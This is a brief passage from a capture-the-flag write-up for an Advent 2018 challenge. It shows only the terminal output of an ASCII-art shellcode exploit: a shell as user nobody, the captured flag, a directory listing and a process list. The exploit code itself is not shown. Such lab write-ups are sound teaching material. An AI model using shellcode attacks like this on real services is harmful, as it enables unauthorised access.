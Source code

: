 All of this gives us the flag:

```  
$ ./shellcode.py  
b'Looks like valid ASCII art to me!!\n'  
uid=65534(nobody) gid=65534(nogroup) groups=65534(nogroup)

AOTW{Every artist was 1st an amateur}

total 20  
drwxr-xr-x 1 root root 4096 Dec 21 21:54 .  
drwxr-xr-x 1 root root 4096 Dec 22 12:00 ..  
-rwxr-xr-x 1 root root 5464 Dec 21 11:49 chal  
-rw-r--r-- 1 1000 1000   38 Dec 21 21:34 flag

USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND  
root         1  0.0  0.0   4628   852 ?        Ss   Dec22   0:00 /bin/sh -c
/usr/sbin/inetd -d  
root         6  0.0  0.0  31872  2948 ?        S    Dec22   0:00
/usr/sbin/inetd -d  
nobody    5663  0.0  0.0   8804   864 ?        Ss   22:34   0:00
/usr/bin/timeout 60 /opt/chal  
nobody    5664  3.0  0.0   4628   772 ?        S    22:34   0:00 /bin/sh -c
/bin/sh  
nobody    5665  0.0  0.0   4628   828 ?        S    22:34   0:00 /bin/sh  
nobody    5669  0.0  0.0  34400  2796 ?        R    22:34   0:00 ps aux

```

Original writeup
(https://github.com/nononovak/otwadvent2018-ctfwriteup/blob/master/day22.md).